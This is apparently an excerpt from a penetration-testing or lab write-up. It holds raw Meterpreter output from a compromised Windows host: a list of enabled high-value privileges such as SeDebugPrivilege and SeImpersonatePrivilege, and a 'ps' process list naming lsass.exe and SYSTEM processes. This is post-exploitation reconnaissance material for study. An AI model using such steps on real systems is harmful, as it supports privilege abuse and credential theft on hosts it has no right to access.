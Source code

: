 ```

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 352   680   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 368   4     smss.exe              x64   0                                      
 512   680   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 520   512   csrss.exe             x64   0                                      
 588   512   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 596   580   csrss.exe             x64   1                                      
 640   580   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 680   588   services.exe          x64   0                                      
 688   588   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 748   680   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 780   680   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 876   640   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 884   680   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```